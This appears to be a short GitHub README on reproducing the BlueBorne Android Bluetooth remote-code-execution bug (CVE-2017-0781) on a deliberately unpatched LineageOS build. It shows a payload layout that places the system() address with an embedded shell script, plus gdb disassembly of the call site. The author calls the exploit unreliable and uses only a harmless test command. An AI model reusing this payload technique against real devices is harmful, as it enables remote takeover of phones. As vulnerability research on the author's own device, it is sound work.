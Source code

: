 # android712-blueborne

For testing purposes removed the CVE-2017-0781 pathces and compiled 7.1.2 (LineageOS CM 14.1) on my Samsung S3 Neo+ GT-9301I

Android Blueborne RCE CVE-2017-0781

Tricky to pull off.... not reliable.

Control r4 register which is REMOTE_NAME

Payload is:
```
SHELL_SCRIPT = b'touch /tmp/test'

Payload is: '"\x17AAAAAAsysm";\n<bash_commands>\n#'
'sysm' is the address of system() from libc. The *whole* payload is a shell script.
0x1700 == (0x1722 & 0xff00) is the "event" of a "HORRIBLE_HACK" message.
payload = struct.pack('<III', 0x41411722, 0x41414141, system_addr) + b'";\n' + SHELL_SCRIPT + b'\n#'
```

After dozen of executions got this condition in

bt_workqueue

```
(gdb) x/30i 0xacda11c4
=> 0xacda11c4:	ldrh	r1, [r4, #0]
   0xacda11c6:	bic.w	r0, r1, #255	; 0xff
   0xacda11ca:	cmp.w	r0, #5632	; 0x1600
   0xacda11ce:	bge.n	0xacda11ec
   0xacda11d0:	cmp.w	r0, #4096	; 0x1000
   0xacda11d4:	beq.n	0xacda1206
   0xacda11d6:	cmp.w	r0, #4352	; 0x1100
   0xacda11da:	beq.n	0xacda1230
   0xacda11dc:	cmp.w	r0, #4608	; 0x1200
   0xacda11e0:	bne.n	0xacda1250
   0xacda11e2:	mov	r0, r4
   0xacda11e4:	ldmia.w	sp!, {r4, lr}
   0xacda11e8:	b.w	0xacd738a4
   0xacda11ec:	beq.n	0xacda123a
   0xacda11ee:	cmp.w	r0, #6400	; 0x1900
   0xacda11f2:	beq.n	0xacda1246
   0xacda11f4:	cmp.w	r0, #5888	; 0x1700
   0xacda11f8:	bne.n	0xacda1250
   0xacda11fa:	ldr	r1, [r4, #8]
   0xacda11fc:	mov	r0, r4
   0xacda11fe:	blx	r1
   0xacda1200:	ldr	r0, [pc, #92]	; (0xacda1260)
   0xacda1202:	add	r0, pc
```

As we can see our system call should be executed on  0xacda11fe

